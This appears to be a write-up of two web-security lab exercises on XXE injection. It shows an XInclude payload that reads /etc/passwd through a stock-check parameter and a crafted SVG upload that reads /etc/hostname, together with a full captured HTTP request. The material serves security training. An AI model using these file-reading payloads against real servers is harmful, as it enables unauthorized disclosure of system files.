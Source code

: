# Finding hidden attack surface for XXE injection

## Lab #6: Exploiting XInclude to retrieve files
> This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
>
> Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
>
> To solve the lab, inject an XInclude statement to retrieve the contents of the `/etc/passwd` file. 


Normal check stock request 

![bea8aeaaf4ec891804bf27f090fb8ed2.png](_resources/8993b683d85946d8b8b0f0291d7b419a.png)

> This occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service. 
> In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element.

When you can't modify the `DOCTYPE` element use the `XInclude` to target

> XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
 
Suppose this is the request before data is submitted as SOAP request.
```xml
<?xml version="1.0" standalone="yes"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

And this is the request data after submitted
```
productId=1&storeId=1
```

Now by injecting this payload to `productId` value
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

Then it would be looks like this.
```xml
<?xml version="1.0" standalone="yes"?>
<stockCheck>
	<productId>
		<foo xmlns:xi="http://www.w3.org/2001/XInclude">
		<xi:include parse="text" href="file:///etc/passwd"/>
		</foo>
	</productId>
	<storeId>1</storeId>
</stockCheck>
```

Result:

![39351705f191ded063de172b137a6e43.png](_resources/2e9b6490b16c424faf439b86ed7ddb9b.png)



## Lab #7: Exploiting XXE via image file upload
> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
> 
> To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

Sample of post comment request

```
POST /post/comment HTTP/1.1
Host: ac231f771e87e82b81a3557a00b30080.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------188598865416344468863471675206
Content-Length: 971
Origin: https://ac231f771e87e82b81a3557a00b30080.web-security-academy.net
Connection: close
Referer: https://ac231f771e87e82b81a3557a00b30080.web-security-academy.net/post?postId=1
Cookie: session=zTIx6VxIWFv51s0xFfFGtZ3xSyERrsvW
Upgrade-Insecure-Requests: 1

-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="csrf"

DERfGRQshcr2T2rPWiDcWWPvEr78SAoX
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="postId"

1
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="comment"

I want xxe
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="name"

test
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="avatar"; filename="emtpy.svg"
Content-Type: image/svg+xml


-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="website"

http://localhost
-----------------------------188598865416344468863471675206--
```

Payload inside empty.svg
```
-----------------------------188598865416344468863471675206
Content-Disposition: form-data; name="avatar"; filename="emtpy.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Avatar contains the content of /etc/hostname

![fb79b0f6cb0577407a109ed352bf3976.png](_resources/9cc9918a44e44c0b8d8983bf0d81e970.png)

Closer

![eaa40001992383b1ef5998521b65aece.png](_resources/879b5476330f4d088c1b2b05d0ece13c.png)


c4c6e6948ace